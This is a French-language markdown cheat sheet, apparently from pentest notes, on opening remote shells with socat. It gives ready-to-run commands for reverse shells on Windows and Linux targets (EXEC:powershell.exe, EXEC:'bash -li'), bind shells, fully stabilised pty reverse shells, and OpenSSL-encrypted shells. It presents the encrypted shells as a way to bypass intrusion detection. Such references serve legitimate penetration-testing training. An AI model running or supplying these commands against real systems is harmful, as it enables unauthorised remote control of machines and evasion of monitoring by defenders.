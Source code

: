 
## __Reverse shell__

[Binaire précompilé de socat](Binaries##__Linux__###x86-64####Socat) 
Pour setup un reverse shell avec socat c'est légèrement plus compliqué qu'avec netcat.

#### 1- Listener -- Notre machine

Sur notre machine il faut effectuer la commande :

```shell
user@ip: ~$ socat TCP-L:1345 -
```

Cette commande est équivalente à faire **`nc -vnlp 1234`**.

#### 2- Connection -- Machine cible

Sur la machine cible, on va effectuer la commande :

1) Sur une machine **windows**

```shell
PS C:\Users\user> socat TCP:<NOTRE-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

2) Sur une machine **linux**

```shell
user@raspberrypi: ~$ socat TCP:<NOTRE-IP>:<LOCAL-PORT> EXEC:"bash -li"
```


## __Bind shell__

#### 1- Listener -- Machine cible

1) Sur la machine cible sous **Linux** :

```shell
user@raspberrypi: ~$ socat TCP-L:<TARGET-PORT> EXEC:"bash -li"
```

2) Sur une machine **Windows**

```shell
PS C:\Users\user> socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

#### 2- Connection -- Notre machine

```shell
user@ip: ~$ socat TCP:<TARGET-IP>:<TARGET-PORT> -
```


## __Stable Reverse shell__

Pour setup un reverse shell entièrement stable, on va

#### 1- Listener -- Notre machine

```shell
user@ip: ~$ socat TCP-L:<port> FILE:`tty`,raw,echo=0
```

C'est l'équivalent de faire `stty raw -echo; fg`.

#### 2- Connection -- Machine cible

```shell
user@raspberrypi: ~$ socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

| Argument   | But                                                                                                                       |
| ---------- | ------------------------------------------------------------------------------------------------------------------------- |
| **pty**    | alloue un pseudoterminal sur la cible -- partie du processus de stabilisation                                             |
| **stderr** | s'assure que tous les messages d'erreur sont affichés dans le shell                                                       |
| **sigint** | transmet toutes les commandes Ctrl + C au sous-processus, ce qui nous permet de tuer les commandes à l'intérieur du shell |
| **setsid** | crée le processus dans une nouvelle session                                                                               |
| **sane**   |  stabilise le terminal en essayant de le "normaliser".                                                                                                                          |


## __Encrypted shell__

Les **shells chiffré** sont très utile pour **bypass les IDS** car ils ne peuvent **pas être lue** à part si l'on a la **clé de déchiffrement**.

La **syntaxe** pour les shells encrypté n'est pas différente à l'exception que le mot clé **TCP** est remplacé par **OPENSSL**.

#### 1- Générer le certificat -- Notre machine

```shell
user@ip: ~$ openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

Crée une **clé RSA de 2048 bits** dans un fichier **shell.key** et un **certificat correspondant** valide pendant 362 jours dans **shell.crt**.

#### 2- Fusion des clé et certificats -- Notre machine

```shell
user@ip: ~$ cat shell.key shell.crt > shell.pem
```

Fusion des 2 fichiers dans un fichier **shell.pem**.

#### 3- Listener -- Notre machine

```shell
user@ip: ~$ socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```

**verify=0** indique qu'on ne veut **pas valider** que notre certificat a été signé par une **autorité reconnue**.

#### 4- Connection -- Machine cible

```shell
user@raspberrypi: ~$ socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

